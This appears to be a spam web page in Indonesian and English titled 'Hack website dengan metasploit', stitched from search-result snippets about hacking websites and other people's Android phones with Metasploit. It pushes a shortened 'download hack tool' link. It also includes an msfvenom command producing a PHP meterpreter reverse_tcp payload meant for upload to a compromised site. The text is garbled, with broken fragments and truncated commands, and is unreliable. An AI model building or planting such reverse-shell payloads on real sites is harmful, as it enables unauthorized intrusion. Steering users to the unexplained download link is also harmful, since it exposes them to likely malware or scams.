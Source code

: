 Hack website dengan metasploit



𝐃𝐎𝐖𝐍𝐋𝐎𝐀𝐃 𝐇𝐀𝐂𝐊 𝐓𝐎𝐎𝐋 𝐇𝐄𝐑𝐄 ===> http://gg.gg/11802k?570585



.



.



.



.



.



.



.



.



.



.



.



.

Exploit Phase In this phase, we will try to attack it with vulnerability scanning module of Metasploit and try to use it with another attack tool. WMAP Plugin ". This tool is integrated with Metasploit and allows us to conduct web application scanning from within the Metasploit Framework. Vulnerability Scanning with WMAP. Use Metasploit in termux to Hack Android phone. Now you will see a zip file that you have downloaded from the Ngrok website.

 · Tutorial Hacking Dengan Metasploit ARTIKEL PERTAMA. Selamat Pagi all, kali ini saya akan share sedikit tentang aplikasi hacker favorit saya. Yaitu adalah METAPLOIT Framework ver. Aplikasi ini berfungsi untuk mengexploitasi kelemahan suatu system ataupun aplikasi. Aplikasi ini bisa untuk penetration testing ke System Windows, Unix/Linux Estimated Reading Time: 5 mins.  · Command: msfvenom -p php/meterpreter/reverse_tcp LHOST= LPORT= R >  Here-p stands for payload and R stands for Raw format. Now your  file is saved in your root location which you need to upload it to that hacked website via any internal form where browse functionality is there. So in above site, we successfully bypass .  · Cara Mematikan HP Xiaomi yang Terkunci Cara Instal Bahasa Indonesia di Android 2. Cara Hack HP Orang Dengan Metasploit. Cara Hack HP Orang Dengan Metasploit. Metasploit merupakan sebuah alat yang dibuat untuk menguji kerentanan sistem atau masuk kedalam sistem remote jarak jauh. Baca juga: Cara Melacak No HP dengan Missing: website.
